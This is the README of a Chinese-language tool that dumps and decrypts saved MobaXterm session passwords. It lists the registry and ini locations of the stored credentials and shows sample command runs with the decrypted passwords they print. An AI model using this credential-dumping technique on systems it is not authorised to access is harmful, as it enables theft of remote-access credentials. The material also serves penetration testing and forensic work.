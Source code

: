 ## MobaXtermDecryptor

[![Author](https://img.shields.io/badge/author-h0ny-red.svg "Author")](https://github.com/h0ny "Author")
[![Visitors](https://visitor-badge.laobi.icu/badge?page_id=h0ny.MobaXtermDecryptor "Visitors")](https://github.com/h0ny/MobaXtermDecryptor "Visitors")
[![Stars](https://img.shields.io/github/stars/h0ny/MobaXtermDecryptor.svg?style=flat&label=stars "Stars")](https://github.com/h0ny/MobaXtermDecryptor "Stars")
[![Downloads](https://img.shields.io/github/downloads/h0ny/MobaXtermDecryptor/total.svg)](https://github.com/h0ny/NacosExploit/releases)
![GitHub release (latest by date)](https://img.shields.io/github/v/release/h0ny/MobaXtermDecryptor)
![GitHub License](https://img.shields.io/github/license/h0ny/MobaXtermDecryptor)

### 介绍

一个简单的 MobaXterm 密码转储工具。

---

用户凭据存储的位置：

| Registry Path                                  | Registry Entry         | Portable MobaXterm.ini Section | Description                         |
| ---------------------------------------------- | ---------------------- | ------------------------------ | ----------------------------------- |
| HKEY_CURRENT_USER\Software\Mobatek\MobaXterm   | SessionP               | [Misc]                         | Entropy used in DPAPI               |
| HKEY_CURRENT_USER\Software\Mobatek\MobaXterm\M | [UserName@MachineName] | [Sesspass]                     | Base64-encoded Master Password      |
| HKEY_CURRENT_USER\Software\Mobatek\MobaXterm\P | [All Registry Entries] | [Passwords]                    | Passwords - Encrypted credentials   |
| HKEY_CURRENT_USER\Software\Mobatek\MobaXterm\C | [All Registry Entries] | [Credentials]                  | Credentials - Encrypted credentials |

部分 MobaXterm.ini 内容示例：

```ini
[Misc]
PasswordsInRegistry=0
SessionP=656078197542
MPSetDate=4/14/2024
MPSetAccount=Administrator
MPSetComputer=WIN-KC7O8UA7U4Q

[Credentials]
cloud-user=root:hDkUY2nK

[Passwords]
mobauser@mobaserver=hnp+7YZCxO75h1e/w1tST2IvKHtWIIIRuKQ=

[Sesspass]
Administrator@WIN-KC7O8UA7U4Q=AQAAALK+kjnRao9Fp9ljPL2GpQIAAAAAAgAAAAAAEGYAAAABAAAgAAAA8eEio3ElndSDHvad+IUTeuDcxECIp6BRTcnl4WUO0hQAAAAADoAAAAACAAAgAAAApYkVRexqVUB0W2aggCLirnpVr7XXvG4zkThBB5Cc34RgAAAAtuRBDfbxi9Ws5Fp7D2DAV12a/7+ZAC4Y8s6LryB0AmG6eByh2+ScguKs0nKsXupoHtQrq1esdbOF+KA5ObYKv7e9Cmb3X86HX90sRyaqRoi0faQ4BwL2EVFP3CAqNfVCQAAAAOIiPQ/546VgLw5vn2ptgn/ELHzOiGWwA7v9ov3Z0/POZrPXW+1jtb2PeGCkWyH82PDjx5c0UyO4j7xw/UzrDYE=
```

### 使用方法

对于 MobaXterm 安装版本直接运行即可：

```
PS C:\> .\MobaXtermDecryptor.exe
[+] MobaXterm Installer Edition
[*] ----------------- Passwords -----------------
[*] Connection Name: mobauser@mobaserver
[*] Password:        324326moba126340pass359591

[*] Connection Name: ssh22:root@192.168.10.10
[*] Password:        admin123

[*] ----------------- Credentials -----------------
[*] Name:     cloud-user
[*] Username: ubuntu
[*] Password: 123456
```

对于 MobaXterm 便携版本需要指定 MobaXterm.ini 文件：

```
PS C:\> .\MobaXtermDecryptor.exe C:\Users\Administrator\Desktop\MobaXterm.ini
[+] MobaXterm Portable Edition
[*] ----------------- Passwords -----------------
[*] Connection Name: mobauser@mobaserver
[*] Password:        324326moba126340pass359591

[*] Connection Name: ssh22:root@192.168.10.10
[*] Password:        admin123

[*] ----------------- Credentials -----------------
[*] Name:     cloud-user
[*] Username: ubuntu
[*] Password: 123456
```

> 注意：对于便携版也需要在目标机器上运行，因为有进行 DPAPI 解密操作。

### 参考项目 👍

- https://github.com/qwqdanchun/Pillager
- https://github.com/XMCyber/XMCredentialsDecryptor
- https://github.com/HyperSine/how-does-MobaXterm-encrypt-password
